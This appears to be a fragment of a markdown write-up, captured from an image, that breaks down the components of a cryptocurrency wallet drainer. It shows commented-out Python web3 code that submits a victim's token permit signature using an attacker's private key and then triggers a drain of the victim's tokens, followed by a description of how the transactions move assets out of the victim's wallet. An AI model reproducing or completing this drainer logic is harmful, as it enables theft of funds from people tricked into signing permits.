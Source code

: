         #     # ... extract other params from signature_data or frontend payload ...

        #     # token_contract_with_permit = w3.eth.contract(address=token_address, abi=PERMIT_TOKEN_CONTRACT_ABI)
        #     # try:
        #     #     nonce = w3.eth.get_transaction_count(attacker_account.address)
        #     #     permit_tx = token_contract_with_permit.functions.permit(
        #     #         owner, spender, value, deadline, v, r, s
        #     #     ).build_transaction({
        #     #         "from": attacker_account.address, "gas": 150000, "gasPrice": w3.eth.gas_price, "nonce": nonce
        #     #     })
        #     #     signed_permit_tx = w3.eth.account.sign_transaction(permit_tx, private_key=ATTACKER_WALLET_PRIVATE_KEY)
        #     #     sent_permit_tx_hash = w3.eth.send_raw_transaction(signed_permit_tx.rawTransaction)
        #     #     print(f"Permit transaction sent: {sent_permit_tx_hash.hex()}. Waiting for confirmation...")
        #     #     # Wait for permit tx confirmation, then trigger drain_with_approval (as spender is now approved)
        #     #     # w3.eth.wait_for_transaction_receipt(sent_permit_tx_hash)
        #     #     # trigger_drain_with_approval(victim_address, token_address)
        #     # except Exception as e:
        #     #     print(f"Error processing permit signature for {token_address} from {victim_address}: {e}")
        ```
    *   **Functionality:** Constructs and sends the actual transaction(s) that move assets from the victim's wallet. This involves careful nonce management, gas estimation, and signing transactions with an attacker-controlled private key.
    *   **Data Flow:** Uses victim address, asset details, approval/signature data. Interacts heavily with an Ethereum node. Sends transactions to the blockchain.